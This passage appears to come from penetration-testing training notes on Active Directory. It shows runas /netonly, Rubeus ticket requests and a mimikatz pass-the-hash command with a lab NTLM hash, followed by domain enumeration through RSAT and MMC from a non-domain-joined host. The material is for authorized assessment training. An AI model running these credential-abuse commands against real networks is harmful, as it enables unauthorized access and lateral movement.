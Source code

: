 Using "`runas /netonly`" to leverage the built-in `runas.exe` command line tool.

- **CMD - Runas User**
```
runas /netonly /user:htb.local\jackie.may powershell
```

Other tools that we will discuss in later modules, such as Rubeus and mimikatz can be passed cleartext credentials or an NTLM password hash.

- **CMD - Rubeus.exe Cleartext Credentials**
```
rubeus.exe asktgt /user:jackie.may /domain:htb.local /dc:10.10.110.100 /rc4:ad11e823e1638def97afa7cb08156a94
```

- **CMD - Mimikatz.exe Cleartext Credentials**
```
mimikatz.exe sekurlsa::pth /domain:htb.local /user:jackie.may /rc4:ad11e823e1638def97afa7cb08156a94
```

## Enumeration with RSAT

If we compromise a domain-joined system (or a client has you perform an AD assessment from one of their workstations), we can leverage RSAT to enumerate AD. While RSAT will make GUI tools such as **Active Directory Users and Computers** and **ADSI Edit** available to us, the most important tool we have seen throughout this module is the **PowerShell Active Directory module**.

Alternatively, we can enumerate the domain from a non-domain joined host (provided that it is in a subnet that communicates with a domain controller) by launching any RSAT snap-ins using "`runas`" from the command line. This is particularly useful if we find ourselves performing an internal assessment, gain valid AD credentials, and would like to perform enumeration from a Windows VM.

![image](https://github.com/user-attachments/assets/e24ecb1f-62d2-4338-a74e-50cb13c386b1)

We can also open the **MMC Console** from a non-domain joined computer using the following command syntax:

- **CMD - MMC Runas Domain User**
```
runas /netonly /user:Domain_Name\Domain_USER mmc
```

![image](https://github.com/user-attachments/assets/cbf33be4-8392-4a7f-8f46-0dbee9ba3fbf)

We can add any of the RSAT snap-ins and enumerate the target domain in the context of the target user `sally.jones` in the `freightlogistics.local` domain. After adding the snap-ins, we will get an error message that the "specified domain either does not exist or could not be contacted." From here, we have to right-click on the `Active Directory Users and Computers` snap-in (or any other chosen snap-in) and choose `Change Domain`.

![image](https://github.com/user-attachments/assets/dec5edc9-6191-4b3b-8116-1f6956e7a830)

Type the target domain into the `Change domain` dialogue box, here `freightlogistics.local`. From here, we can now freely enumerate the domain using any of the AD RSAT snapins.

![image](https://github.com/user-attachments/assets/ea6793fb-3333-4a23-aba9-9449d0df9ad6)
